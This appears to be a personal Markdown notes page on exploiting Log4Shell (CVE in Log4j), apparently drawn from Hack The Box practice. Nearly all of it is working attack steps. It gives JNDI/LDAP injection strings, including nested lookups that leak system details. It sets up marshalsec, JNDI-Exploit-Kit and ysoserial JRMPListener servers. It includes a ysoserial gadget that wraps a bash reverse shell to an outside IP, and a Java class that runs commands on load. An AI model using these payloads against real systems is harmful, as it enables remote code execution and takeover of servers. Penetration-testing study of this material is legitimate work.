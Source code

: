 ```yaml
---
title: Log4Shell
date: 2022-01-01
categories:
  - Notes
tags:
  - Log4j
  - ysoserial
  - marshalsec
excerpt_separator: <!--more-->
ShowToc: true
#image: Log4Shell.png
platform: notes.png
---
```


The widely-used java logging library, Log4j, has an unauthenticated remote code execution (RCE) and denial of service vulnerability if a user-controlled string is logged. This could allow the attacker full control of the affected server or allow an attacker to conduct a denial of service attack.


<!--more-->

## Log4shell

### Setting up LDAP server using Marshalsec
[Marshalsec Github](https://github.com/mbechler/marshalsec)
- `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "https://10.10.10.10:8888/#log4jrce"`

### Payload
- `${jndi:ldap://10.10.14.2:1337/a}` 
- `${jndi:ldap://10.10.14.2:1337/${sys:java.class.path} or ${java:version} or ${java:os}}` **_or can be replaced with .... to do nested thingy_**

### Creating serialized payload using ysoserial
[ysoserial](https://github.com/frohoff/ysoserial) [ysoserial-modified](https://github.com/pimps/ysoserial-modified)
- `java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.6/9002 0>&1' > ~/htb/logforge/ysoserial.ser` **_Creates a serialized payload_**

### Set up JNDI Listener using JNDI-Exploit-Kit
[JNDI-exploit-kit](https://github.com/pimps/JNDI-Exploit-Kit)
- `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.6:1389 -P ~/htb/logforge/ysoserial.ser` **_Listens to port 1389 then sends ysoserial.ser_**
- after running ysoserial-modified we will get links for different versions for jdk to try out. `${jndi:ldap://10.10.14.6:1389/vojbuj}`

### Using ysoserial setup a JRMPListener that automatically sends CommonsCollections5 payload
- Using JRMPListener to send CommonsCollections `java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsCollections5 "**_CMD_**"` **_this will set up a listener listening on port 1337. send your payload `${jndi:rmi://10.10.10.10:1337/a}` and should receive something._**

### Example Class
```Java 
public class Log4jRCE {
    static {
        try {
            String [] cmd={"touch", "/tmp/TEST"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

